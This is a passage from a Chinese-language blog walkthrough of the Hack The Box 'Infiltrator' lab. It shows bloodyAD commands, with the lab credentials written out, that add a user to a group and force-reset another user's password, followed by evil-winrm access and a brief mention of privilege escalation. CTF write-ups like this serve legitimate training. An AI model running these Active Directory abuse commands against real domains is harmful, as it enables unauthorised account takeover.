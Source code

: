 
[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241022165146931-1490978336.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241022165146931-1490978336.png)


把`e.rodriguez`用户加入`CHIEFS MARKETING`组


`python3 AD/bloodyAD/bloodyAD.py --host "dc01.infiltrator.htb" -d "infiltrator.htb" --dc-ip 10.10.11.31 -u e.rodriguez -p "K@night666" -k add groupMember "CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB" e.rodriguez`


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241022165324338-201597272.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241022165324338-201597272.png)


查看`CHIEFS MARKETING`组权限，发现可以强制修改`M.HARRIS`用户的密码


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241022165356760-1413502881.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241022165356760-1413502881.png)


使用`e.rodriguez`用户修改掉`M.HARRIS`用户的密码


`python3 AD/bloodyAD/bloodyAD.py --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.10.11.31 -u "e.rodriguez" -p "K@night666" set password "m.harris" "K@night666"`


# evil\-winrm


使用`m.harris`用户evil\-winrm连接上拿到user.txt


# 提权


一个压缩包，里面mysql root用户密码，直接读Administrator用户的root.txt（公共环境太难受了，这里不演示了


  * [nmap scan](#nmap-scan)
* [Web收集](#web%E6%94%B6%E9%9B%86)
* [kerbrute枚举域用户](#kerbrute%E6%9E%9A%E4%B8%BE%E5%9F%9F%E7%94%A8%E6%88%B7):[wgetCloud机场](https://tabijibiyori.org)
* [AS\-REP Roasting](#as-rep-roasting)
* [Hash brute](#hash-brute)
* [密码复用](#%E5%AF%86%E7%A0%81%E5%A4%8D%E7%94%A8)
* [bloodhound收集](#bloodhound%E6%94%B6%E9%9B%86)
* [GenericAll](#genericall)
* [evil\-winrm](#evil-winrm)
* [提权](#%E6%8F%90%E6%9D%83)

   \_\_EOF\_\_

   F12  - **本文链接：** [https://github.com/F12\-blog/p/18493404](https://github.com)
 - **关于博主：** 评论和私信会在第一时间回复。或者[直接私信](https://github.com)我。
 - **版权声明：** 本博客所有文章除特别声明外，均采用 [BY\-NC\-SA](https://github.com "BY-NC-SA") 许可协议。转载请注明出处！
 - **声援博主：** 如果您觉得文章对您有帮助，可以点击文章右下角**【[推荐](javascript:void(0);)】**一下。
     
